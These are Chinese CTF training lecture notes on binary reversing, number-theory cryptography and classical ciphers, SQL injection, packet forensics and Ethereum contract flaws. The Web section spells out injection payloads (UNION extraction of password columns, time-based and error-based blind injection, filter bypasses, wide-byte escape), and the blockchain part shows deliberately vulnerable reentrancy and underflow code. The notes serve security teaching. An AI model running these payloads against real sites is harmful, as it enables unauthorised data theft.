内核以可执行文件 e_entry 位置 (即_start) 作为起点
-
动态链接程序：
内核以 interpreter 文件的 e_entry 位置作为起点
-
等了解交互/调试之后进行 revisit
_start¶
- glibc 代码 (汇编构筑)
- 携带
main符号跳转__libc_start_main函数
__libc_start_main¶
- 完成各类和目标 ELF 有关的初始化
- 内联
__libc_start_call_main - 最终跳往
main符号 main结束后调用exit
基地址与 ASLR¶
- PIE 动态链接可执行程序基地址随机保护
- 无论静态/动态 (是否 PIE)，栈地址随即化保护
- 通过 /proc/sys/kernel/randomize_va_space 控制随机化
ELF 程序的交互、调试¶
通过命令行人工与程序交互¶
- 绝对路径 / 相对路径
- -h / --help
- manual
- PATH 路径
- 通过虚拟机或者沙箱进行交互
通过编程与程序交互¶
- 重定向构建特殊字符作为输入
- C 管道编程
- python subprocess 库
- python pwntools 库
GDB: GNU DeBugger¶
- 调试模式
- 调试器执行模式
- attach 模式
- remote 模式
- 常用调试功能
- 执行断点
- 硬件断点
- 查看寄存器 / 内存
- set 修改寄存器 / 内存
- gdb 插件
ELF程序的逆向¶

ELF的静态逆向¶
- 反汇编：机器指令 \(\rightarrow\) 汇编指令（查表、准确）
- objdump
- 反编译：汇编指令 => 编程语言（分析/特征匹配/启发式 … 、往往不准确）
- IDA Pro (https://hex-rays.com/ida-pro/)
- Binary Ninja (https://binary.ninja)
- with free version
- Ghidra (https://github.com/NationalSecurityAgency/ghidra)
- Cutter / radare (https://github.com/rizinorg/cutter )
- 大语言模型 ;D (https://mlm.lingyiwanwu.com/)
静态逆向技巧¶
对于静态链接目标
- 特征 + 猜测尽可能恢复库函数符号
对于符号恢复的静态 or 动态链接目标
- 关注特定常量和字符串
- 关注输入和输出函数
- 关注分支、比较指令
- 关注可能涉及加密解密的特殊运算（位运算、异或、取余）
ELF的动态逆向¶
「可运行」和「可调试」是高效解决逆向问题的必备
- 许多逆向赛题都需要「纯静态」的方式解决，程序可能依赖特定的架构/设备
- “if it can run, it can be cracked”
- 通过运行时的结果解决静态逆向时的疑惑
Lec5-Pwn¶
约 1 个字
Lec6-Crypto¶
约 1410 个字 预计阅读时间 6 分钟
授课：
密码学基础¶
密码学是研究编制密码和破译密码的技术科学
- 设计加解密算法
- 破解加解密算法
密码学介绍¶
为何需要密码学¶
- 存储：信息的存储可能是不安全的，会被窃取
- 传输：信息的传输过程可能也不是隐秘的，会被窃听
不能直接使用明文进行存储和传输！
Crypto in CTF¶
出题人给定一个有一定缺陷的加密算法，需要选手攻破该加密算法，得到解密后的文字，或者伪造加密信息
比赛中题目虽然常常会涉及许多较新的论文研究结果，但是仍与目前隐私计算等前沿密码学安全研究有一定距离
Crypto学习资源推荐¶
- CTF Wiki
- 4老师倾情推荐的密码学做题网站：CryptoHack
- 密码学入门书籍：An introduction to mathematical cryptography
基本术语¶
- 消息被称为明文（Plaintext）。用某种方法伪装消息以隐藏它的内容的过程称为加密 （Encryption），被加密的消息称为密文（Ciphertext），把密文恢复为明文的过程称为密（Decryption）。
- 密码算法（Cryptography Algorithm）：是用于加密和解密的数学函数。
- 密钥（Key）：加密或解密所需要的除密码算法之外的关键信息。
- 对称加密（Symmetric Cryptography）
- 特点：在加密和解密时使用同一密钥
- 例子：流密码（RC4），块密码（AES，DES）
- 非对称加密（Asymmetric Cryptography）
- 特点：在加密和解密时使用不同密钥，加密使用公钥，解密使用私钥
- 例子：RSA，ElGamal，ECC
- 哈希函数（Hash Function）
- 特点：把输入内容单向映射到一个短的摘要上
- 应用：下载文件完整性校验
- 例子：CRC，MD5，SHA系列
- 数字签名（Digital Signature）
- 应用：对消息进行签名（也是一个短的消息），以防消息的冒名伪造或篡改

数学基础¶
OI Wiki 数论部分¶
整除：$ a \mid b $¶
- \(\forall a \in \mathbb{Z}~, 1 \mid a\) ；若 \(a \neq 0\)，则 \(a \mid 0\) 且 \(a \mid a\)
- 若 \(a \mid b\) 且 \(b \mid c\)，则 \(a \mid c\)
- 若 \(a \mid b\) 且 \(a \mid c\)，则 \(a \mid (sb + tc)\)，其中 \(s, t \in \mathbb{Z}\)
最大公因数（Greatest Common Divisor, GCD）：$ \gcd(a, b) $¶
- \(\gcd(a, b) = \gcd(b, a)\)
- \(\gcd(a, b) = \gcd(a, b - a)\)
- \(\gcd(a, b) = \gcd(a, b \mod a)\)
特别的，当 \(a\)、\(b\)互素，即 $ \gcd(a, b) = 1 $时，一定存在整数 \(x, y\) 使得 \(ax + by = 1\)
算数基本定理¶
任何一个大于 \(1\) 的自然数 \(n\) 都可以唯一地分解为若干个素数的乘积 $$ n = p_1^{a_1} \times p_2^{a_2} \cdots \times p_k^{a_k} $$ 其中 \(p_1, p_2, \cdots, p_k\) 是素数，\(a_1, a_2, \cdots, a_k\) 是正整数
同余¶
\(a,b\)对于模\(n\)同余：\(a \equiv b \pmod{n}\)
设 \(a, b, c, d, n\)均为整数，且 \(n \neq 0\)，则有：
- $ n \mid a \Leftrightarrow a \equiv b \pmod{n} $
- $ a \equiv a \pmod{n} $
- 若 \(a \equiv b \pmod{n}\)，\(c \equiv d \pmod{n}\)，则 \(a \pm c \equiv b \pm d \pmod{n}\)，\(ac \equiv bd \pmod{n}\)
- 若 \(a \equiv b \pmod{n}\)，则 \(a^k \equiv b^k \pmod{n}\)
- 若 \(a \equiv b \pmod{n}\)，\(c \equiv d \pmod{n}\)，则 \(a^c \equiv b^d \pmod{n}\)
- 若 \(a + b \equiv 0 \pmod{n}\)，则称 \(a\) 与 \(b\) 互为加法模 \(n\) 逆元
- 若 \(ab \equiv 1 \pmod{n}\)，则称 \(a\) 与 \(b\) 互为乘法模 \(n\) 逆元。\(a\) 的乘法模 \(n\) 逆元记为 \(a^{-1}\) ，\(a\) 有乘法模 \(n\) 逆元当且仅当 \(\gcd(a, n) = 1\)
中国剩余定理¶
若 \(m_1, m_2, \cdots, m_k\) 是两两互质的正整数，则对于任意的整数 \(a_1, a_2, \cdots, a_k\)，同余方程组 \[ \begin{cases} x \equiv a_1 \pmod{m_1} \\ x \equiv a_2 \pmod{m_2} \\ \cdots \\ x \equiv a_k \pmod{m_k} \end{cases} \] 对模 \(m = m_{1}m_{1} \cdots m_{1}\) 有唯一解 \(x\)。
设 \(M_i = \frac{m}{m_i}\)，则 \(M_i\) 与 \(m_i\) 互质，存在整数 \(N_i\) 使得 \(M_iN_i \equiv 1 \pmod{m_i}\)（\(N_i\) 为 \(M_i\) 的模 \(m_i\) 乘法逆元），则 $$ x = \sum_{i=1}^{k} a_iM_iN_i $$
欧拉函数¶
对于正整数 \(n\)，欧拉函数 \(\varphi(n)\) 定义为小于等于 \(n\) 的正整数中与 \(n\) 互质的数的个数
- 若 \(n = p_1^{a_1} \times p_2^{a_2} \cdots \times p_k^{a_k}\)，则 \(\varphi(n) = n \times (1 - \frac{1}{p_1}) \times (1 - \frac{1}{p_2}) \cdots (1 - \frac{1}{p_k})\)
- 若 \(n = p^a\)，则 \(\varphi(n) = p^a - p^{a-1} = p^{a-1}(p-1)\)
- 若 \(n = p \times q\)，且 \(p, q\) 互质，则 \(\varphi(n) = \varphi(p) \times \varphi(q)\)
- 若 \(n = p \times q\)，且 \(p, q\) 为不同的质数，则 \(\varphi(n) = (p-1)(q-1) = \varphi(p) \times \varphi(q)\)
欧拉定理¶
若 \(a, n\) 互质，则 \(a^{\varphi(n)} \equiv 1 \pmod{n}\)
费马小定理（欧拉定理的特例）：当 \(n\) 为质数时，\(\varphi(n) = n - 1\)，即 \(a^{n-1} \equiv 1 \pmod{n}\)
RSA算法¶
- 选择两个大质数 \(p, q\)，计算 \(n = p \times q\)，\(\varphi(n) = (p-1)(q-1)\)
- 选择 \(e\)，使得 \(1 < e < \varphi(n)\)，且 \(\gcd(e, \varphi(n)) = 1\)
- 计算 \(d\)，使得 \(d \equiv e^{-1} \pmod{\varphi(n)}\) ，即 \(d \times e \equiv 1 \pmod{\varphi(n)}\)
- 于是得到公钥为 \((e, n)\)，私钥为 \((d, n)\)， 设明文为 \(m\)，密文为 \(c\)，若消息太长，可将消息分段加密
- 加密：\(c = m^e \mod n\)
- 解密：\(m = c^d \mod n\)
古典密码¶
- 代换（substitution）密码——用新的替换原先的内容
- 置换（permutation）密码——打乱原先的顺序
- Hill密码
凯撒密码¶
又称加法密码，是一种最简单的替换密码，是一种使用恒定偏移量的替换密码，将字母表中的每个字母循环移动固定位数得到密文
- 加密：\(y = \text{encode}(x) = (x + key) \mod 26\)
- 解密：\(x = \text{decode}(y) = (y - key) \mod 26\)
- 破解：暴力枚举观察结果（常见编码ROT13，取\(key = 13\)）
一般的凯撒加密只作用于26个字母，但也可拓展到ASCII码表上（常见编码ROT47，将33~126作为字母表，取\(key = 47\)）
仿射密码¶
仿射密码是一种线性替换密码，类似于凯撒加密，但不止进行加法
- 加密 \(y = \text{encoude}(x) = (x \times key_1 + key_2) \mod 26\)
- 解密 \(x = \text{decode}(y) = (y - key_2) \times key_1^{-1} \mod 26\)
- 破解：单表密码加密前后的字符是一一对应的，不会破坏统计规律，根据英文文本中字母出现的频率以及一些常见单词即可轻松破解(如
the,and,youa等)
维吉尼亚密码¶
一种多表加密的替换密码，密钥任意长，并且以循环使用，第 \(i\) 个字符用第 \(i\) 个密钥进行偏移
- 加密：\(y_i = \text{encode}(x_i) = (x_i + key_i) \mod 26\)
- 解密：\(x_i = \text{decode}(y_i) = (y_i - key_i) \mod 26\)

例：明文CRANE，密钥TONY
- (C, T) \(\rightarrow\) V
- (R, O) \(\rightarrow\) F
- (A, N) \(\rightarrow\) N
- (N, Y) \(\rightarrow\) L
- (E, T) \(\rightarrow\) X
破解：确定密钥长度 \(\rightarrow\) 分组爆破加法密码 \(\rightarrow\) 得到密钥
置换密码¶
加密变换使得信息元素只有位置变化而内容不变，比如对于一种置换密码，其置换表为
| X | 1 | 2 | 3 | 4 | 5 | 6 |
|---|---|---|---|---|---|---|
| E(X) | 3 | 5 | 1 | 6 | 4 | 2 |
对于明文\(\texttt{crypto basic}\)，先进行分组（不足需填充）：\(\texttt{[crypto]}\)和\(\texttt{[ basic]}\)，然后对每一组进行置换： 对每一组进行置换： \(\texttt{[crypto]} \rightarrow \texttt{[yoctrp]}\) \(\texttt{[ basic]} \rightarrow \texttt{[ac ibs]}\) 最终密文就是\(\texttt{yoctrpac ibs}\)
栅栏密码¶
栅栏密码也是一种置换密码，其将明文分割成k行，然后重新拼接，这里k即为加密的密钥
对于明文\(\texttt{crypto basic}\),取 \(k=3\) ，将明文分割成三行
c |
p |
s |
|
|---|---|---|---|
| r | t | b | i |
| y | o | a | c |
因此得到的密文为\(\texttt{cp srtbiyoac}\)
Hill密码¶
希尔密码是运用基本线性代数原理实现的替换密码
每个字母当作26进制数字，将一串字母当成 \(n\) 维向量，与一个 \(n \times n\) 的矩阵相乘，再将得出的结果 mod 26，其中这个 \(n \times n\) 矩阵就是密钥
比如明文 \(\texttt{IT}\) ，转换成26进制为$P = \begin{bmatrix} 9 & 20 \end{bmatrix} $，加密密钥 $ K = \begin{bmatrix} 11 & 8 \\ 3 & 7 \end{bmatrix} $
密文即为$ C = P \times K = \begin{bmatrix} 159 & 212 \end{bmatrix}\mod 26 = \begin{bmatrix} 3 & 4 \end{bmatrix} $，转回字母即 $\texttt{CD} $ 解密只需要计算 \(K\) 的逆矩阵即可，$ P = C \times K^{-1} = \begin{bmatrix} 3 & 4 \end{bmatrix} \times \begin{bmatrix} 7 & 18 \\ 23 & 11 \end{bmatrix} = \begin{bmatrix} 9 & 20 \end{bmatrix} $，再转回字母即 $\texttt{IT} $
Ended: 基础周
专题周 ↵
Web ↵
Web-1 注入¶
约 2085 个字 65 行代码 预计阅读时间 9 分钟
授课：褚翰泽（OverJerry）
SQL基础¶
mysql –u root –p
mysql> SHOW DATABASES; /*输出所有的数据库*/
mysql> USE db_name; /*使用某个其中一个数据库*/
mysql> SHOW TABLES; /*显示数据库中的表*/
mysql> SHOW COLUMNS FROM table_name; /*输出列*/
-
SELECT语句的结构
SELECT field1, field2,...fieldN (FROM table_name1, table_name2... [WHERE condition1 [AND [OR]] condition2...)Examples:
-
关于注释
-
一些SELECT的其他例子
SELECT col_name FROM table_name /*从特定表中获取特定列*/ SELECT * FROM table_name /*从特定表中获取全部列*/ SELECT * FROM table_name WHERE col_name = XXX /*在限定条件下取数据*/ SELECT * FROM table_name ORDER BY col_name(col_index) /*根据列名或索引排序*/ SELECT col_name1, col_name2… FROM table_name LIMIT N, M /*从第N(从0开始)条开始返回M条数据*/ SELECT col_name1, col_name2… FROM table_name LIMIT M OFFSET N /*也可以这么写*/ SELECT concat(col_name1, col_name2…) FROM table_name /*整合列数据*/ SELECT group_concat(col_name1, col_name2…) FROM table_name /*整合行、列数据*/ -
一些常用的URL编码：
- Space: %20
- #: %23
- ': %27
- ": %22
- +: %2B
- # + $ - _ . ! * ( ) 浏览器地址栏默认不编码，但是不意味着不能编码
SQL注入¶
直接回显的SQL注入¶
网站架构分析¶

SQL注入的判断¶
根据网站功能，猜测可能的SQL语句
SELECT col_name(…) FROM table_name WHERE id = {} /*数字型*/
SELECT col_name(…) FROM table_name WHERE id = '{}' /*字符型*/
存在注入->SQL语句可以以一种“意料之外”的方式被解析
而最简单的“意料之外”就是把他搞坏
-
传入全部各种特殊字符 '"~!@#$%^&*()`
-
不管内部结构怎么样，这样肯定能出错，检测效率高
判断到底是数字型还是字符型
-
传入id=2-1
- 如果是数字型，语句应该变为：
- 而如果是字符型，语句应该变为：
会查询不到内容
此刻，我们已经收集到的信息有:
- 内部SQL语句的结构
- 服务端的基本响应逻辑
那么，怎么继续获取信息呢？
- 借助联合查询:
- 我们可以尝试传入
id=1 UNION SELECT {secret_data}从而使拼接的SQL语句变为：
- 这样，联合查询就会覆盖SQL查询的结果，并借助PHP代码实现的HTML嵌入，将我们想要的信息嵌在页面里传回来！
由于联合查询前后的列数必须一致，我们也要判断原SQL查询的列数
- 我们可以尝试构造
- \(M \leq N\)时，能有正常的返回，\(M > N\)时会报错，从而可以判断查询的列数
- 当然，也可以一个个试
数据获取¶
现在我们以及可以利用MySQL函数直接获取一些信息了
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT DATABASE(), USER(), "https://www.zju.edu.cn/_upload/tpl/0b/bf/3007/template3007/static/media/logo.e85b920df15a055ad9bc.png";
但是，由于我们不知道表名、列名，我们无法获取更多的数据
幸运的是，MySQL 的默认库information_schema中存放了这些信息。当然，这个技巧只能在 MySQL 中使用
-
在MySQL中，所有的数据库名存放在
information_schema.schemata的schema_name字段下 -
所有的表名存放在
information_schema.tables的table_name字段下，可以以table_schema为条件筛选 -
所有的列名存放在
information_schema.columns的column_name字段下，可以以table_schema和table_name为条件筛选
可以构造
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(schema_name), 2, 3 FROM information_schema.schemata;
获取所有数据库信息，以此类推
获取到表、列名后，可以获取其他数据。这里以users表中的passwd字段为例
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(passwd), 2, 3 FROM users;
如果想要分行获取，也可以借助LIMIT
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT passwd, 2, 3 FROM users LIMIT 0, 1;
无回显的SQL注入¶

判断注入点¶
根据网站功能，可能的SQL语句仍然是SELECT，而且只能是字符型
SELECT col_name(…) FROM table_name WHERE username = '{}'
SELECT col_name(…) FROM table_name WHERE username = "{}"
验证猜想
-
传入
uname=' -
而uname="时
说明是单引号闭合
一些SQL注入方法¶
传入uname=a' or {condition}# 可以让语句变为
这样，当且仅当statement为真时，username='a' or {condition}才可能为真，返回User Found，否则必为Not Found(因为不存在username='a'的数据)。既，我们可以获取{condition}的结果！
用and语句构造也是同理
SUBSTR(str, pos, len) 可截取字符串
str参数代表待截取的字符串pos参数代表从什么位置开始截取(下标从1开始)len参数表示字符串截取的⻓度
ASCII(char)将字符转为ASCII码
那么，我们用SUBSTR()一位位取出要查找内容的字符，再用ASCII()转化为ASCII码，就能用二分法获取数据了
例子

利用延时
IF(condition, expr1, expr2)
如果condition为真就执行expr1，反之执行expr2
和SLEEP()配合，就能通过测量响应时间来获取数据！
例子
如果延时超过2秒，说明条件为假，反之为真特殊的SQL注入¶
是否有可能注入INSERT, UPDATE, DELETE语句？¶
假设某用户注册场景，username/email/password分别用POST参数uname&email&passwd传入
在不知道SQL语句结构的情况下，最保险的方案是时间盲注，只需简单闭合即可
传入uname='='' AND IF({condition}, SLEEP(0), SLEEP(5)) AND ''='&email=a&passwd=b
语句变为
INSERT INTO `users` VALUES (100, ''='' AND IF({condition}, SLEEP(0), SLEEP(5)) AND ''='', 'a', 'b');
如果已经知道INSERT语句的结构，我们可以直接篡改后续的插入内容
传入uname=', DATABASE(), '')#&email=a&passwd=b
语句变为
注册用户的email栏会直接展示数据库名
一个仅限MySQL的技巧¶
传入uname=0'|CONV(HEX(SUBSTR(USER(),1, 8)),16, 10)|'0&email=a&passwd=b
将结果转换回字符即可UNHEX(CONV(res, 10, 16))
UPDATE语句也是同理。DELETE一般没有回显的渠道所以还是只能用延时注入。
报错注入(MySQL环境下)¶
核心思想就是让我们要查询的信息输出到报错信息中去
EXTRACTVALUE(xml_document,Xpath_string)
使⽤Xpath格式的字符串从xml_document中获得内容，Xpath格式(一般为/a/b/…)错误就会报错，报错信息中会输出Xpath_string
那么我们可以刻意构造错误的Xpath_string和我们想要查询的数据拼接
比如，只要查询中执行了 EXTRACTVALUE(1,CONCAT(0x7e,DATABASE(),0x7e)) 就必定报错(0x7e是~的编码)，DATABASE()会作为Xpath的一部分出现在报错信息中
这个技巧可以用在任何回显报错信息的场景中。同理还有很多其他的MySQL可用的报错注入函数。
堆叠注入¶
很多数据库是支持多个SQL指令在一行内执行的。不过，服务端语言可能不会获取多行结果。
比如PHP常用的mysqli->query()方法只会执行一条指令。要执行多条必须用mysqli_multi_query()方法，使用场景比较少见。
不过，一旦发现了一个堆叠注入就约等于发现了一个RCE，危害极大。
常见的闭合判断方法：;select sleep(1);#
如果有延时说明后续指令被执行了。
二次注入¶
对数据进行转义是为了防止SQL语句执行时出现问题，存储的原始数据并没有转义。
那么，如果某个数据被存入时携带了恶意的SQL语句，由于存入操作进行了良好的转义没有造成注入，但是服务端的其他功能读取这串数据用于拼接SQL语句时没有转义，可能也会造成注入。
SQL注入原理总结¶
- SQL注入产生在服务端运行的编程语言和SQL服务器的边界上
- SQL注入的本质是构造一条产生有效信息输送的信息链！
SQL注入的绕过¶
常见防护方法：
- 直接拦截
- 关键字替换
- 编码转义
- 参数化查询
检测方式：
- 关键字匹配(直接查找/正则)
- 语义匹配
基本思路：针对关键字/正则匹配
- 大小写
- 利用等价命令 比如 OR->||, SPACE->/**/, ORDER BY->GROUP BY …
- 如果只是单纯删去关键字，且只删一次，可以嵌套绕过，比如
UNION是关键字会被删除，那么传入UNUNIONION就会被删成UNION，从而注入
针对语义匹配
- 相对难度较大，只能利用语言特性把语义检测绕晕。常见办法是嵌套注释符让其以为全部内容都被注释了。
奇技淫巧：
- 超长字符串绕过
- 多次编码(需要服务端有相应解码功能)
- %00截断/换行截断
- 改变请求方式
GET->POST,?a=1->/a/1
对于直接编码转义或是参数化查询基本无能为力的，无法逃逸=无法注入。
不过，如果数据库使用的是GBK编码，而服务端只采用addslashes()方法进行转义，可能造成逃逸。比如addslashes("%df'")="%df\'" 传给SQL服务器时十六进制编码为 df 5c 27
而在GBK编码下，df 5c是汉字運的编码，最后这段字符会被数据库理解为運'，导致转义失效，单引号逃逸。这种技巧被称为宽字节注入。
一些其他注入漏洞的例子¶
-
XXE: XML external entity attack
比如这段XML发送给某个API后，服务器会解析XML的内容，并返回一个HTML页面。
-
SSRF: Server-side request forgery
诱导服务端对非预期的地址作网络请求，从而获取部分内网信息
总结¶
Web漏洞挖掘的关键：
- 全面的信息收集
- 完整的功能分析
- 清晰的利用逻辑
- 丰富的知识储备
- 更重要的是耐心！
约 0 个字
Ended: Web
Misc ↵
约 0 个字
Misc专题二：流量取证/区块链基础¶
约 2423 个字 7 行代码 预计阅读时间 10 分钟
流量取证¶
流量取证基础¶
网络流量（\(\rightarrow\) 回顾 web 基础）
- 应用层（HTTP/FTP/...） \(\rightarrow\) 表示层 \(\rightarrow\) 会话层（SSL/TLS/...）
- \(\rightarrow\) 传输层（TCP/UDP） \(\rightarrow\) 网络层（IP/ICMP/...）
- \(\rightarrow\) 数据链路层 \(\rightarrow\) 物理层
最终传输的仍然是二进制数据
- 捕获这些数据， 就可以分析得到正在进行的通信内容
流量取证一般就是拿到这些数据包（cap、 pcap、 pcapng 格式）进行分析
- 如有损坏的话修复数据包（少见， pcapfix 可以修复）
- 分析、 提取得到正在通信的内容（可能包含有效信息）
- 分析一些特定的、 不太常见的协议（比如一些自定义协议）
- 分析、 解密一些加密的协议（比如 VMess 等）
流量取证常用工具¶
- tcpdump 抓 TCP 包（Linux 命令行）
- Wireshark： 直接抓包， 得到物理层的全部数据并解析（开源）
- 自带命令行工具 tshark
- termshark： 类似 Wireshark 的开源命令行工具
- pyshark： tshark 的 Python 封装， 可以用 Python 脚本分析
- scapy： Python 库，
Wireshark 基本用法¶
浏览主界面的所有数据包， 大致了解都由什么协议组成
追踪流（追踪 TCP 流 / 追踪 HTTP 流）
- 得到某次通信的全部数据包， 并进行解析
- 另存为， 保存流数据
- 可以转换不同的显示形式（ASCII、 HEX、 Raw）
文件 > 导出， 提取某些数据包的流内容
统计部分
- 协议层次： 统计各层协议的数据包数量
- 流量图： 统计各个端口的流量， 可视化显示
- HTTP： 分组计数、 请求统计
Wireshark 过滤器¶
过滤协议： 直接输入 tcp/udp/http 等
过滤 ip： ip.addr == xx.xx.xx.xx 或 ip.src ip.dst
过滤端口： tcp.port == 80 或 tcp.srcport tcp.dstport
包长度过滤： frame.len ip.len tcp.len ……
http 过滤
- http.request.method == GET
- http.request.uri == "/index.php"
- http contains "flag"（相当于搜索功能）
HTTP 协议流量分析¶
分析统计信息
- 查看所有的 HTTP 请求 URI
- 分析 HTTP 往返的情况， 流量整体信息
具体分析某些请求： 利用过滤器
分析某一数据包具体内容
- 跟踪流， 跟踪 TCP 解析 TCP， 跟踪 HTTP 可以自动解压 gzip 等
- 分析请求头、 响应头、 请求体、 响应体等
具体题目示例
- 本次 lab 中的题目： SQL 盲注流量分析
UDP 协议¶
UDP 协议是无连接的， 不需要像 TCP 一样三次握手
和 TCP/HTTP 一样直接追踪分析就可以
常见的基于 UDP 的协议： DNS
具体题目示例
- 本次 lab 中的题目： dnscap
-
MRCTF 2022： Bleach!
- 基于 UDP 的 RTP 协议， 需要手动选择进行解析
- RTP 是一种音视频传输协议， 可以得到音频流
- wav 音频流中 LSB 包含隐写图片
其他协议¶
ICMP 协议： ping
- 某时也会带有一些信息， 可以进行进一步分析
OICQ 协议： QQ 使用， 是加密的， 但是可以看到双方 QQ 号等
WIFI 协议（IEEE 802.11）
- 可以使用 Linux aircrack 套件爆破密码
- 有了密码后可以在 Wireshark 中设置并解密流量
USB 协议
- 安装了 USBcap 之后可以在 Wireshark 中捕获 USB 流量
- 有工具可以解析流量， 绘制鼠标轨迹， 得到按键信息等
其他加密协议
- VMess， 需要读文档 / 源码， 实现解密
- 例题： 强网杯 2022 Quals 谍影重重
以太坊区块链基础¶
以太坊模型全览 - 区块与世界状态¶

每个区块包含三颗 Merkle 树根节点
- stateRoot 即世界状态树根节点， 状态是一组用户状态的组合
区块由“矿工”或“验证者”将交易打包形成， 后广播到网络中
- 每条交易会引发世界状态的转变， 消耗一定 gas
以太坊模型全览 - 交易与世界状态转变¶

每一条交易都会引起状态的改变
多个交易打包到一起， 最终状态就是新区块存储的状态
交易信息中包含 hash/v/r/s 为交易签名， 用于验证交易的合法性
合约在 EVM 上执行， 执行过程中也有各种漏洞
账户¶
外部账户（Externally Owned Account）
-
有一对公私钥， 用于签署交易
- 私钥是随机生成的 256 位数（32 字节）
- 公钥由私钥经过 ECDSA 算法计算而来， 是一个 64 字节的数
- 地址由公钥经过 Keccak-256 哈希后取前 20 字节得到

合约账户（Contract Account）
- 由 EOA 通过交易创建的账户， 其中包含合约代码
- 合约可以存储、 拥有以太币
- 向合约账户发送交易 \(\rightarrow\) 调用合约中的函数
- 合约本身不能主动发起交易， 但可以在被调用时向外发送交易
交易¶
一条交易包含以下内容：
- from： 交易发送者地址
- to： 交易接收者地址， 如果为空则表示是在创建智能合约
- value： 交易金额， 即发送方要给接收方转移的以太币数量（wei 为单位）
- data： 交易数据， 如果是创建智能合约则是智能合约代码， 如果是调用智能
- 合约则是调用的函数名和参数
- gasPrice： 交易的 gas 价格， 即每单位 gas 的价格（wei 为单位）
- gasLimit： 交易的 gas 上限， 即交易允许执行的最大 gas 数量
- nonce： 交易的序号， 即发送者已经发送的交易数量
除此之外发送的交易数据包还需要包含：
- hash： 交易的哈希值， 由前面的内容和 chainId 计算得到
- v、 r、 s： 交易签名的三个部分， 由发送者私钥对交易哈希值进行签名得到
以太币单位： https://converter.murkin.me/
关于链与 faucet¶
公开链： 真实的交易
- 通过 https://etherscan.io/ 查看
- 主网（mainnet） ： 真正的金钱交易， 很少使用
-
测试链： Sepolia / Holesky 链， 可以通过 faucet 获取免费代币
- https://sepolia-faucet.pk910.de/
- Ethernaut 等大型公开合约 CTF 平台会使用
私链： 自己搭建的链， 模拟真实的链
- 一般 CTF 题目都使用私链部署
- 可以通过 geth 等工具部署私链
more¶
- https://note.tonycrane.cc/ctf/blockchain/eth/basic/
- https://slides.tonycrane.cc/data-sec-pre/
- https://ethereum.org/en/developers/docs/
智能合约安全基础¶
关于合约¶
合约的创建和调用都通过交易来进行
合约调用：
- data 字段为编码后的函数名（selector）和参数， 称为 calldata
- selector 是函数签名 keccak256 的前四个字节
- 不存在对应 selector 则会调用 fallback 函数， 还不存在则 revert
合约存储： 全公开存储， 都在链上， 可以 getStorageAt 查看
revert： 回滚， 所有当前调用中的状态改变全都复原
合约编译后得到字节码在 EVM 上运行：
Solidity 语言¶
https://note.tonycrane.cc/ctf/blockchain/eth/solidity/
官方文档：https://docs.soliditylang.org/en/latest/index.html
以太坊官方的编写智能合约的语言
IDE：https://remix.ethereum.org/
通过 contract 关键字声明一个合约
通过 function 定义一个可以调用的函数
- public、 internal、 external、 private
- 属性（状态）会自动创建 getter 函数
- 通过 view、 pure 关键字定义一个不改变状态的函数
通过 payable 关键字定义一个可以接收以太币的函数
特殊函数： constructor、 fallback、 receive
常见漏洞示例¶
整型溢出¶
Ethernaut 题目 Token：
mapping(address => uint256) balances;
function transfer(address _to, uint256 _value) public returns (bool) {
require(balances[msg.sender] - _value >= 0);
balances[msg.sender] -= _value;
balances[_to] += _value;
return true;
}
- balances 字典是 uint256， 无符号减法有溢出风险
- 给任意地址转账， 原余额 20 Token， 转 21 个， 则 balances 会变的巨大
- 通过事先检查或者使用 SafeMath 库可以避免
- 新版本 solidity 自动开启了溢出检查
重入攻击¶
Ethernaut 题目 Re-entrancy， 很经典的智能合约漏洞，例如如下合约：
contract Bank {
mapping(address => uint256) balances;
...
function withdraw(uint256 amount) public {
require(balances[msg.sender] >= amount);
msg.sender.call.value(amount)("");
balances[msg.sender] -= amount;
}
}
withdraw 时先转钱再更新 balances
转钱的时候会进入到目标合约的 fallback 函数， 可以再次调用 withdraw
再次调用时 require 检查的仍然是老的 balances
这样可以把钱取空
伪随机数¶
区块链需要所有以太坊节点验证交易计算出相同结果达成共识
无法实现真随机数
伪随机可以破解：
- 利用区块变量作为随机数： 可以获取
- 利用 blockhash 作为随机数： 只保留最近 256 个区块
- 回滚攻击： 不断 revert 来猜随机数
Ethernaut 题目 Coin Flip， 留作作业。
其他常见漏洞： https://note.tonycrane.cc/ctf/blockchain/eth/vuln/
CTF 比赛中的私链题目交互¶
一般会过滤掉大部分 geth rpc 接口
- 防止其他队伍扒链蹭车 / 重放
- 白名单示例可见 chainflag/solidctf 中的白名单，一般就是这些
- geth 手动操作很复杂（只能发 raw）, remix/metamask 可能会无法连接
可以 / 推荐通过 web3.py 进行交互
- 通过 eth.contract 和 abi 与 addr/bytecode 创建合约对象
- 通过 contract.functions.f().build_transaction() 构建交易
- 通过 eth.account.sign_transaction(txn, privateKey) 签名
- 得到 rawTransaction 后 eth.send_raw_transaction(raw) 发送
- 通过 eth.wait_for_transaction_receipt(hash) 等待交易完成
- 无需交易的 view 函数可以直接 contract.functions.f().call()
https://note.tonycrane.cc/ctf/blockchain/eth/basic/#_15
more¶
Read more: https://note.tonycrane.cc/ctf/blockchain/eth
以太坊基础知识： 账户、 交易、 合约、 区块等， 及其原理
Solidity 语言： 最常用的智能合约语言， 以太坊官方语言
- 了解其语法、 类型， 以及合约运行的整体逻辑
- 了解一些 ERC 标准（目的是看懂题目的合约）
以太坊虚拟机（EVM） ： 执行合约字节码的栈结构虚拟机
- 了解其运行原理， 与账户、 合约、 交易的关系， 反汇编、 反编译的方法
交互、 测试环境： geth、 Remix、 MetaMask、 web3.js、 web3.py 等
常见合约漏洞： 整型溢出、 重入、 伪随机、 薅羊毛、 非预期的远程调用……
入门做题平台：
- ethernaut
- 校巴上的几道 Blockchain 题建议有一定基础了解之后再做
Ended: Misc
Ended: 专题周
Ended: CTF
Others ↵
写点啥好呢¶
约 5 个字
Ended: Others
tags¶
约 1 个字